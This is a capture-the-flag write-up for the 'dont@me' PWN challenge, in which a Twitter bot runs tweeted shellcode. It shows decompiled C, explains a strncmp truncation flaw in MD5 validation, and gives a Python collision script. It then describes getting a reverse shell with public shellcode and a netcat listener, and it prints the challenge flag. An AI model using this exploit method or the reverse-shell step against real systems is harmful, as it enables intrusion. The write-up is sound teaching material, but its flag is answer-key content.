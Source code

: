 # dont@me Writeup by Srdnlen
### Category: PWN. Solves: 2
### Description:
WORKING AGAIN. If you have any trouble, please contact admins on discord (awg). Same binary as before. Twitter api gets weird with tweets longer than 140 characters, so try to keep them shorter. (@name doesn't add to length) Also twitter api can be somewhat slow. Give it at least 10 min before giving up. Also don't use a private account, that just wont work.

tweet @JohnSmi31885382


### Writeup
We need to do a pwn challenge through a twitter bot. Interesting. Let's take a look at the program with a decompiler. This is my reverse with IDA.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  printf("Poop.", argv, envp);
  if ( argc <= 1 )                              // argc needs to be > 1
    return -1;
  message_rax = grab_message((char *)argv[1]);  // gets word after @name (found this with the debugger)
  message = message_rax;
  shellcode_len = 0LL;
  message_len = strlen(message_rax);
  shellcode = (char *)base64_decode((__int64)message, message_len, &shellcode_len);// it must be base64
  if ( !shellcode )
    return -1;
  do_md5(shellcode, shellcode_len, (char *)shellcode_md5);// after decoding, turn it into md5. Remeber that it is not a string, it is a big int
  if ( !(unsigned int)validate_hash((const char *)shellcode_md5) )// validate_hash should return true
    return -1;
  v9 = shellcode;
  ((void (*)(void))shellcode)();                // run it as shellcode
  return 0;
}
```


What we can tell from the main is that our tweet should be like this: `@JohnSmi31885382 ${SHELLCODE}`

The program takes our shellcode and executes it. Seems pretty straightforward. However, we see that it calculates the md5 hash of our shellcode and does something with it. Ouch. Let's look at `validate_hash`.


```C
__int64 __fastcall validate_hash(const char *a1)
{
  //~SNIP~
  for ( index = 0; index <= 0; ++index )        // what the fuck
  {
    hash_shellcode((__int64)&s2, index);        // i will always be 0
    if ( !strncmp(a1, &s2, 16uLL) )             // if equal
      return 1LL;
  }
  return 0LL;
}
```

```C
unsigned __int64 __fastcall hash_shellcode(__int64 output, int index)
{
  //~SNIP~

  outputa = (char *)output;
  v6 = index;
  v2 = strlen((&valid_shellcodes)[index]);
  v9 = v2 >> 1;
  v10 = (&valid_shellcodes)[index];             // index will always be 0
  LODWORD(v2) = v2 >> 1;
  v11 = (int)v2 - 1LL;
  v3 = alloca(16 * (((int)v2 + 15LL) / 0x10uLL));
  input = (char *)&v5;
  for ( i = 0; i < v9; ++i )
  {
    __isoc99_sscanf(v10, "%2hhx", &input[i]); //Reads bytes from a hex string
    v10 += 2;
  }
  do_md5(input, v9, outputa);
  return __readfsqword(0x28u) ^ v13;
}
```

It gets the first hex string at `valid_shellcodes` and turns it into raw bytes. Then, it computes its MD5 and uses strncmp to compare it to the MD5 of our shellcode. 
Let's look at the MD5 of the first `valid_shellcode`...

```
printf "b801000000bf01000000488d3508000000ba0c0000000f05c348656c316f207730724c642e00" | xxd -r -p - | md5sum
79fc008108a92bcd7edb7cb63ea714b3
```

The third byte is NULL. strncmp is supposed to deal with C strings... that means it does not look at any of the bytes beyond \x00. If we provide a shellcode which has `79fc00` as the first 3 bytes of its MD5, strncmp will think it's the same MD5 as `valid_shellcode`. How can we do that? We can just add random bytes to the shellcode until the hash is good. As long as the actual instruction bytes are executed, it's ok to have garbage at the end. Here's a VERY dirty code to do it.


```Python
from hashlib import md5
import base64

valid_shells_md5 = ['79fc008108a92bcd7edb7cb63ea714b3']
valid_shell_stub = '79fc00'

shellcode = b'<INSERT SHELLCODE TO USE>'
garbage = b'aaaaaaaa'

while True:
    garbage = bytes(md5(garbage).hexdigest().encode('ascii'))

    x = md5(shellcode+garbage).hexdigest()
    #print(x)
    if (x[:6] == valid_shell_stub):
        print(shellcode+garbage)
        print(bytes(shellcode+garbage))
        print(base64.b64encode(bytes(shellcode+garbage)))
        print(x)
        exit()
```

Now, we have to think about which shellcode to use. At first I thought the bot would send you the STDOUT output to your Twitter, but I was wrong... I waited half an hour and nothing happened. We need to make a reverse shell. I used this one: http://shell-storm.org/shellcode/files/shellcode-907.php

Remember to set the IP variable to your public IP. Feed the shellcode to the collision script.
Open the port 4444 through your router's configuration and start listening: `nc -lvp 4444`.
Now, tweet at @JohnSmi31885382 with the base64'd, collision'd shellcode and you should get a connection to your netcat. Type ls to verify the shell.


## Flag
`WPI{b10kd_@nD_r33p0rtEd}`
